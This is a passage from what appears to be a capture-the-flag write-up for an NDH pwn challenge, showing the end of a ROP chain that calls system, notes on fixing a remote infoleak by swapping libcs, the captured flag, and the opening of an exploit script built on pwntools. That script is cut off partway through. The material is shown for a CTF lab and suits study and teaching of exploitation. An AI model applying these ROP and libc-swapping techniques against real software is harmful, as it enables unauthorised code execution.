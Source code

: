 ```python
chain1.raw(shaddr)
# call system
chain1.raw(velf.symbols['exit'])
```

And we got a shell :) Remember we had problems with the infoleak on the remote
server. We just swapped libcs and tried it on the remote server and suddenly
our infoleak worked. Apparently it was a buffering issue and jumping back to
main made the infoleak work. We had to adapt the exploit a little and 2 minutes 
later we had a shell :).

```
# cat ~/flag
NDH{d7ef20eef497a1eb9d0d119b45b3855d72e7f594923670e7290aa940e4d3c6f5}
```

yes :)

Here is the full (and uncleaned) exploit script:

```python
#!/usr/bin/env python2
from __future__ import print_function
from pwn import *  # noqa
import numpy as np

gdbscript = """
init-pwndbg
# break exit
# break* 0x401b0d
# break* 0x40168f
# break* 0x4015a5
# break* 0x401a9d
# break* 0x4018e2
# break* 0x400dba
# break* 0x400de6
# break* 0x400e30
# break* 0x400e97
# break* 0x401a38

# break *0x401093
# break *0x4010e9

# break main
# break *0x400fa6

break *0x4010f2

print &system

# continue
continue
"""

vpenv = {"LD_PRELOAD": os.path.join(os.getcwd(), "libc.so.6")}


def d2h(f):
    return hex(u64(struct.pack("d", f)))


def d2i(f):
    return (u64(struct.pack("d", f)))


def i2d(i):
```